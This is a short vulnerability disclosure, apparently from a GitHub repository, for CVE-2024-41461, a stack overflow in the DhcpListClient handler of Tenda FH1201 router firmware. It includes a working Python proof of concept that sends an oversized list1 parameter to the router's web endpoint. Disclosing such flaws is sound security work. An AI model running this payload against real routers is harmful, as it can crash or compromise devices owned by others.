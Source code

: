# DhcpListClient

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41461

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the DhcpListClient function.Without checking the length of the parameter list1, it was assigned to stackspace 

![image-20240724094244739](./image-20240724094244739.png)



### poc

```python
import requests

ip = '192.168.74.145'


url = f"http://{ip}/goform/DhcpListClient"
payload = b"a"*2000

data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240724094348453](./image-20240724094348453.png)

